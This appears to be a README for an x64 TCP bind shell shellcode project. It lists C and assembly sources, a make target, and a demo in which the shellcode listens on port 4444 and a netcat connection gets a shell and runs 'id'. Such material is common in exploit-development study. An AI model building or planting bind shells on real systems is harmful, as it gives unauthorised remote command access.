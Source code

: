 # TCP bind shell x64 shellcode

Listing:
- `bind.c` - TCP bind C code
- `bind.s` - asm rewrite of C code
- `bind_sh.s` - adapted asm for shellcode

## Compiling

Use `make (target) PROJECT=bind`.

## Running

First terminal:
```
$ make skeleton PROJECT=bind
...
$ out/skeleton
Shellcode Length:  116

```

Second terminal:
```
$ sudo lsof -i -P | grep skeleton
skeleton  6713          ubuntu    3u  IPv4  86504      0t0  TCP *:4444 (LISTEN)
$ nc localhost 4444
id
uid=999(ubuntu) gid=999(ubuntu) groups=999(ubuntu),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),119(lpadmin),130(lxd),131(sambashare)
```
